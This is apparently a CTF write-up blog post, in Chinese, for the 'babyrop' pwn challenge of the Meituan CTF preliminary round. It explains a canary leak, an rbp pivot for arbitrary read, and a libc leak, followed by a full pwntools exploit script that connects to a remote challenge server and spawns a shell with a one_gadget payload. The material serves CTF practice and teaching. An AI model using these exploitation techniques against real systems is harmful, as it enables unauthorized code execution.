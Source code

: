 ```yaml
---
layout: article
pageview: true
key: 2021-12-11-meituan-pwn-wp
title: 美团CTF初赛Pwn题WP
author: Ch4rc0al
categories: 
  - WriteUps
tags: 
  - Pwn
  - CTF
---
```


# 美团CTF初赛Pwn题WP 

## babyrop

题目没有开`PIE`，for循环中可以溢出一位拿到`canary`，在`vul`函数中可以溢出至ret，我们可以返回到代码段`printf`附近的代码，其中`%s`的参数是通过`rbp-0x20`计算得到，我们可以在`vul`函数中溢出时指定`rbp`的值来实现任意地址读，我们读取`got`表或`bss`段相关内容都可以拿到`libc`地址，进而用`one_gadget`拿到shell

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

p=process('./babyrop')
libc=ELF('./libc-2.27.so')
r=remote('123.57.207.81',24844)

local=0

if local!=1:
    p=r

leave_ret=0x0000000000400759
main=0x40075b
p_rdi=0x0000000000400913
p_rsi_r15=0x0000000000400911


p.send('a'*25)

p.recvuntil('a'*25)
canary=u64('\x00'+p.recvn(7))

log.info(hex(canary))
# passwd=0x64726f7773736170
# passwd=0x70617373776f7264
p.sendlineafter('Please input the passwd to unlock this challenge',str(0x4009AE))


p.send('a'*24+p64(canary)+p64(0x601010+0x20)+p64(0x400818))

p.recvuntil('Hello, ')

addr=u64(p.recvn(6)+'\x00\x00')-libc.sym['_IO_2_1_stdout_']
log.info(hex(addr))

ogg=[324565 ,324658 ,1090588]
# p.send('\x00'*25)

# gdb.attach(p)

p.sendlineafter('Please input the passwd to unlock this challenge',str(0x4009AE))

p.send('a'*24+p64(canary)+p64(ogg[0]+addr)*2)


p.interactive()
```

